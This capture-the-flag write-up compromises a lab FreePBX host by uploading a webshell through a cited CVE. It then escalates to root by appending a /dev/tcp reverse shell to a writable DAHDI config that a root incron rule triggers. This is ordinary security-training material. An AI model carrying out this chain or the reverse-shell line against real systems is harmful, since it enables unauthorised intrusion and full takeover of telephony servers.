


# Enumeration

## Nmap Enumeration

```bash
nmap -p 22,80,443 -sVC 10.129.39.219 -oN nmap_scan              
Starting Nmap 7.95 ( https://nmap.org ) at 2026-09-15 17:55 IST
Nmap scan report for 10.129.39.219
Host is up (0.11s latency).

PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 4e:60:38:6f:e7:78:6c:ca:58:62:a1:f1:56:ae:8d:30 (RSA)
|   256 12:41:55:26:9d:ad:3d:e8:bf:4e:31:aa:d7:d1:a5:d2 (ECDSA)
|_  256 8e:b6:96:e0:21:83:5d:1d:ce:8d:e2:6a:dd:38:c6:75 (ED25519)
80/tcp  open  http     Apache httpd 2.4.6 ((CentOS) OpenSSL/1.0.2k-fips PHP/7.4.16)
|_http-title: Did not follow redirect to http://connected.htb/
|_http-server-header: Apache/2.4.6 (CentOS) OpenSSL/1.0.2k-fips PHP/7.4.16
443/tcp open  ssl/http Apache httpd 2.4.6 ((CentOS) OpenSSL/1.0.2k-fips PHP/7.4.16)
|_ssl-date: TLS randomness does not represent time
| http-title: 404 Not Found
|_Requested resource was config.php
| http-robots.txt: 1 disallowed entry 
|_/
| ssl-cert: Subject: commonName=pbxconnect/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Not valid before: 2025-11-30T14:07:27
|_Not valid after:  2026-11-30T14:07:27
|_http-server-header: Apache/2.4.6 (CentOS) OpenSSL/1.0.2k-fips PHP/7.4.16

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 25.39 seconds
```

Three services on ports 22, 80 and 443. And the HTTP service tries to resolve to `connected.htb` . Adding it to the `hosts` and visiting the site:-



Fig1. FreePBX administrator panel

We’ve landed on the FreePBX administration panel. And in Fig1. if we notice the footer of the panel, we can see that it is showing the version of FreePBX:- `16.0.40.7`

## CVE-2025-57819

Googling the FreePBX version leads us to CVE-2025-57819, an authenticated arbitrary file upload vulnerability in the FreePBX endpoint manager module.

According to [SentinelOne’s](https://www.sentinelone.com/vulnerability-database/cve-2025-61678/) page, through this vulnerability, “Authenticated attackers can upload arbitrary files, including webshells, to attacker-chosen paths, enabling remote code execution on the FreePBX host.”.

Using https://github.com/0xEhab/FreePBX-CVE-2025-57819-RCE ‘s PoC for this CVE:-


Fig2. Initial access as user `asterisk`

We have achieved initial access as user `asterisk` after uploading a webshell and then catching a reverse shell back on our listener.

# Privilege Escalation

While enumerating the process trees of running in the context of the `root` user (using `ps auxf | grep "root"` ), I came on something interesting:-


Fig3: `incrond` running as `root`

The `incrond` service was running as `root`

`incrond` is a Linux daemon that monitors for files and directories for changes and runs specified commands when those occur.

Checking the files under `incron.d` directory:-

```bash
cat /etc/incron.d/*

/var/spool/asterisk/sysadmin/vpnget IN_CLOSE_WRITE /usr/sbin/sysadmin_openvpn -d
/var/spool/asterisk/sysadmin/intrusion_detection_stop IN_CLOSE_WRITE /etc/init.d/fail2ban stop
/var/spool/asterisk/sysadmin/update_system_cron IN_CLOSE_WRITE /usr/sbin/sysadmin_update_set_cron
/var/spool/asterisk/sysadmin/portmgmt_setup IN_CLOSE_WRITE /usr/sbin/sysadmin_portmgmt
/var/spool/asterisk/sysadmin/wanrouter_restart IN_CLOSE_WRITE /usr/sbin/sysadmin_wanrouter_restart
/var/spool/asterisk/sysadmin/dahdi_restart IN_CLOSE_WRITE /usr/sbin/sysadmin_dahdi_restart
/usr/local/asterisk/ha_trigger IN_CLOSE_WRITE /usr/sbin/sysadmin_ha
/usr/local/asterisk/incron IN_CLOSE_WRITE /usr/bin/sysadmin_manager --local $#

/var/spool/asterisk/incron IN_MODIFY,IN_ATTRIB,IN_CLOSE_WRITE /usr/bin/sysadmin_manager $#
```

This entry looks interesting:-

`/var/spool/asterisk/sysadmin/dahdi_restart IN_CLOSE_WRITE /usr/sbin/sysadmin_dahdi_restart` 

The monitored directory was accessible by the `asterisk` user:

```bash
ls -ld /var/spool/asterisk/sysadmin

drwxrwxr-x. 2 asterisk asterisk 4096 Nov 30  2025 /var/spool/asterisk/sysadmin
```

So, if write to `dahdi_restart`, then we could case the corresponding command to be executed by the root-owned `incrond` service.

I checked the command triggered by the incron rule:

```bash
cat /usr/sbin/sysadmin_dahdi_restart
#!/bin/sh

/etc/init.d/asterisk stop

sleep 5

/etc/init.d/dahdi restart

sleep 5

export PATH=$PATH:/usr/local/sbin/:/usr/local/bin/
`which amportal` start
```

It restarts the DAHDI service. I then checked the DAHDI startup script:-

```bash
ls -ld /etc/dahdi/init.conf

-rw-r--r--. 1 asterisk asterisk 855 Sep 19 07:56 /etc/dahdi/init.conf
```

Since this file was writable by `asterisk`, it could be modified to execute commands when DAHDI was restarted.

### DAHDI Abuse to `root`

I added a simple revere shell payload to the end of `/etc/dahdi/init.conf` :

```bash
printf '\nsh -i >& /dev/tcp/<ATTACKER_IP>/7131 0>&1\n' >> /etc/dahdi/init.conf
```

Start a `netcat` listener to catch the callback from the reverse shell:-

```bash
nc -nvlp 7131
```

Let us now cause the incron event by modifying the monitored file:-

```bash
touch /var/spool/asterisk/sysadmin/dahdi_restart
```

Then we receive the reverse shell callback:-


Fig4: `root` reverse shell

`pwned`

# Learnings

- `icron` (Inotify Cron) is a specialized variant of cron that triggers tasks based on filesystem events rather than a clock